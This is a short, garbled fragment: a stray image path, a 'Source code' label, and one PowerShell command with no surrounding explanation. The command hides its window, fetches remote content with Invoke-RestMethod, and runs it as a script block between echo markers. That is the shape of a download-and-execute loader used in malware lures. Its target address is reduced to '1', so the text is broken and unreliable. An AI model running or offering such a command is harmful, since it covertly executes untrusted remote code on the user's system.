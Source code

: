 powershell -WindowStyle Hidden -Command Write-Host 'hhhsodw'; ([ScriptBlock]::Create((irm    1    ))).Invoke(); Write-Host 'hhhsodw';
